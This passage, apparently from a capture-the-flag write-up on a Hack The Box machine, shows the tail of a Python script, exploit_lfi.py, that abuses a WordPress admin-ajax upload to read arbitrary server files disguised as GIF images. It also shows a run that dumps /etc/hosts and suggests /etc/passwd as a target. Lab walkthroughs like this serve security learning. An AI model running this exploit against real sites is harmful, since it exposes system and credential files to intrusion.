 ```python
                    print("[*] Displaying image content:")
                    with open(image_filename, "rb") as img_file:
                        content = img_file.read()
                        if content.startswith(b"GIF89a"):
                            decoded_content = content.decode("utf-8", errors="ignore")
                            print("\n--- BEGIN FILE CONTENT ---")
                            print("\n".join(line for line in decoded_content.splitlines()))
                            print("--- END FILE CONTENT ---\n")
                        else:
                            print("[-] The file is not a valid image or does not contain readable content.")
                else:
                    print("[-] Failed to download the image.")
            else:
                print("[-] No image URL found in the response.")
        except ValueError:
            print("[-] Failed to parse the JSON response.")
    else:
        print(f"[-] Error: {response.status_code}")
        print(response.text)

if __name__ == "__main__":
    file_to_read = input("Enter the file path to read (e.g., /etc/passwd): ")
    upload_file_read(file_to_read)
```
For example if we want to read ```/etc/hosts```

```bash
python3 exploit_lfi.py
Enter the file path to read (e.g., /etc/passwd): /etc/hosts
[*] Target URL: http://blog.bigbang.htb/wp-admin/admin-ajax.php
[*] Trying to read file: /etc/hosts
[+] Request successful!
[*] Response:
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/01\/1-2.png","attachment_id":157}
[*] Downloading image from: http://blog.bigbang.htb/wp-content/uploads/2025/01/1-2.png
[+] Image downloaded: 1-2.png
[*] Displaying image content:

--- BEGIN FILE CONTENT ---
GIF89a127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.3	bf9a078
--- END FILE CONTENT ---
```
But after some enumerations, i found nothing interesting to read.
